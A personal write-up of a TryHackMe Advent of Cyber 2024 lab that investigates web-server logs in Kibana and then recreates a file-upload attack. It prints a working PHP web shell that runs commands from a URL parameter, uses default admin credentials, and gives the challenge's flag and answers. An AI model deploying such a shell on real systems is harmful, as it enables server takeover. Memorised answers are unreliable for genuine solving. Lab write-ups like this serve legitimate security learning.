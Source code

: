 # 🎄 TryHackMe Advent of Cyber 2024 – Day 3: Log Analysis


## Challenge Overview 🎅

Day 3 gave me the chance to wear both blue team and red team hats. The Frosty Pines Resort SOC flagged some suspicious activity on their web server. My job was to figure out how the web shell got there and who accessed it, then take on the role of an attacker to exploit the same vulnerability and grab the hidden flag.

## Objectives 🎯

1. Investigate logs in ELK to figure out how the attack happened.
2. Identify the IP that accessed the web shell.
3. Recreate the attack by exploiting a file upload vulnerability to retrieve the flag.

## Step 1: Investigating the Logs (Blue Team)

### Breaking Down the Process

1. **Access Kibana:**  
   Opened `http://MACHINE_IP:5601` using the browser on the AttackBox. 
2. **Select the Collection:**  
   Chose the **frostypines-resorts** index from the Discover tab.
3. **Adjust the Timeframe:**  
   Set the range to **October 1, 2024, 00:00 – October 3, 2024, 20:00**.
4. **Add Relevant Fields:**  
   Added `requests` and `clientip` fields to focus on the activity we care about.
5. **Narrow the Search:**  
   Searched for `"shell.php"` in the `requests` field to find related logs.

### What I Found
- **Where was the web shell uploaded to?**  
  **Answer:** `/media/images/rooms/shell.php`
- **What IP address accessed the web shell?**  
  **Answer:** `10.11.83.34`

## Step 2: Exploiting the RCE Vulnerability (Red Team)

### Steps to Pull Off the Exploit

1. **Edit the Hosts File:**  
   Added the following to `/etc/hosts`:  
   ```
   MACHINE_IP frostypines.thm
   ```
   This let me access the website by name instead of IP.
2. **Log In to the Site:**  
   Went to `http://frostypines.thm` and logged in with:  
   - **Username:** admin@frostypines.thm  
   - **Password:** admin  
3. **Prepare the Web Shell:**  
   Saved the following PHP code as `shell.php`:
   ```
   <html>
   <body>
   <form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
   <input type="text" name="command" autofocus id="command" size="50">
   <input type="submit" value="Execute">
   </form>
   <pre>
   <?php
       if(isset($_GET['command'])) 
       {
           system($_GET['command'] . ' 2>&1'); 
       }
   ?>
   </pre>
   </body>
   </html>
   ```
4. **Upload the Shell:**  
   Uploaded `shell.php` as the room image via the “Add Room” section.
5. **Locate the Web Shell:**  
   Verified it was uploaded to:  
   `http://frostypines.thm/media/images/rooms/shell.php`
6. **Retrieve the Flag:**  
   Accessed the shell and ran the following command:  
   ```
   cat flag.txt
   ```

### The Result
- **What is the contents of the flag.txt?**  
  **Answer:** `THM{Gl1tch_Was_H3r3}`

## Lessons Learned 🌟

### Blue Team Takeaways
- **Log Analysis Is Essential:** ELK made it easier to sift through logs, filter out noise, and pinpoint the attacker’s activity.
- **Adding Context Matters:** Including fields like `requests` and `clientip` helped narrow the search quickly.
- **Correlating Activity:** Connecting requests with specific IPs and actions made the investigation much more effective.

### Red Team Takeaways
- **Unrestricted File Uploads Are Risky:** Not validating uploads is a massive vulnerability that attackers can exploit for RCE.
- **Web Shells Are Simple but Powerful:** A small PHP script can give full control over a system, reinforcing the need for proper server security.
- **Credentials Are Key:** Using weak or default credentials like `admin/admin` is just inviting attackers in.

## Tools 🛠️

- **[Elastic SIEM](https://www.elastic.co/security/siem):** Used for log analysis to track down suspicious activity and access points.  
- **Text Editor:** Created the PHP web shell used in the exploit.  
- **Browser:** Accessed and navigated the Frosty Pines site during the red team portion of the challenge.

## Final Thoughts 🎁

This task showed the importance of seeing things from both perspectives: defending against and exploiting vulnerabilities. ELK made it easier to understand what happened from the logs, and recreating the attack demonstrated how simple mistakes, like not validating uploads, can have serious consequences. I’m excited to see what tomorrow’s challenge brings!

## Table of Contents

- [Main Page](README.md)
- [Day 1: OPSEC Challenge](day1.md)
- [Day 2: Log Analysis](day2.md)
- [Day 4: Atomic Red Team](day4.md)
- [Day 5: Coming Soon!](day5.md)
- [More Days to Come!](#)

